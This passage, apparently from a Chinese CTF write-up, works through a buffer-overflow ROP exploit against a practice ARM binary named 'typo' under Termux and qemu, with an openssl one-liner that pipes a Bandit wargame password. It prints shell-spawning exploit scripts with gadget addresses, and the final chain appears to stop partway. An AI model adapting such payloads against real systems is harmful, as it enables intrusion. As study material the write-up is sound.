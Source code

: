 成功getshell，看来的确是IO的问题。另外前几天在打wargames的Bandit时有一关是用openssl的s_client连上目标服务器然后发送数据，我就想用一条命令解题，然后向通过管道输入给openssl，但是如果什么参数都不加就不会成功的发送数据，查看其帮助`openssl s_client -h`，发现有这个选项：

```bash
-ign_eof      - ignore input eof (default when -quiet)
```

如果加上`-ign_eof`或者`-quiet`参数，就可以忽略eof，然后就能成功的通过管道或者文件利用一条命令完成本题：

```bash
echo "BfMYroe26WYalil77FoDi9qh59eK5xNr" | openssl s_client -connect localhost:30001 -quiet 2>/dev/null
```

所以估计typo这题不成功的原因也是EOF

### 在Android上

在我的termux里无法成功安装pwntools，但是可以安装[zio3](https://github.com/alset0326/zio3)

```python
from zio3 import *

io = zio("./typo")
io.read_until("quit\n")
io.writeline("")
io.read_until("\n")
payload = 'a'*112 + l32(0x20904) + l32(0x6c384)*2 + l32(0x110b4)
io.writeline(payload)
io.interact()
```

不止为何，仍然无法成功，此脚本在树莓派上可以成功。所以在android上没有成功的原因不仅仅是EOF的问题，另外我知道android没有/bin/sh，我把参数往后调了5个字节，变成了sh即payload为：

```python
payload = 'a'*112 + l32(0x20904) + l32(0x6c389)*2 + l32(0x110b4)
```


仍然无法成功


### 在qemu上

> 2021.1.15，现在看这题小意思

ROP解法：

```python
from pwn import *
context(log_level='debug')
#io = process(['qemu-arm',"-g","1234",'./typo'])
io = process(['qemu-arm','./typo'])
io.sendlineafter("quit\n","")

payload = 'a'*112
payload += p32(0x00020904) # pop {r0, r4, pc}
payload += p32(0x0006C384) # /bin/sh
payload += p32(0)

payload += p32(0x00014068) # pop {r7, pc}
payload += p32(0) 
payload += p32(0x00008160) # pop {r3, pc}
payload += p32(0x00014a70) # pop {r3, r4, r7, pc}
payload += p32(0x00033aa4) # mov r1, r7; blx r3

payload += p32(0x000482fc) # svc #0
payload += p32(0)
payload += p32(0xb)
payload += p32(0x0003338c) # mov r2, r4; blx r3; 
```